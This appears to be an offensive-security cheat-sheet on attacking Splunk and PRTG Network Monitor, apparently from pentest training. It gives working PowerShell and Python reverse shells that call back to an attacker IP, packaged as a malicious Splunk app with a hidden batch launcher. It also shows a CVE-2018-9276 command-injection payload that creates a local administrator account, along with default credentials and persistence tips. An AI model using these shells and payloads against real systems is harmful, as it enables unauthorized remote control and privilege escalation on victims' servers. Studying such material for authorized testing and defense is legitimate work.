

# **Splunk - Discovery & Enumeration**

**Default Port: 8000**
Older default Credentials :  `admin:changeme`
The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.

# **Attacking Splunk**

## **Abusing Built-In Functionality**

[https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)

```
tree splunk_shell/splunk_shell/
├── bin
└── default
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. 

### Windows

Our reverse shell will be a PowerShell one-liner. (save as run.sp1 and locate it at bin directory)

A simple and small reverse shell. Options and help removed to save space.
Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
```powershell
 $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf)  file tells Splunk which script to run and any other conditions. Here we
 set the app as enabled and tell Splunk to run the script every 10 seconds. 

```
cat inputs.conf 
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner: 

```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```
tar -cvzf updater.tar.gz splunk_shell/splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.


### Linux

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. 

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash'
```

# **PRTG Network Monitor**

Default Credentials: `prtgadmin:prtgadmin`.

## Check Version

```bash
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```

## CVE-2018-9276

Versión: `17.3.33.283`.

When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.


Next, click on `Add new notification`.




Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command.  For our purposes, we will add a new local admin user by entering:

```bash
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add  
```

 During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.


After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

### Testing

```bash
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG
```
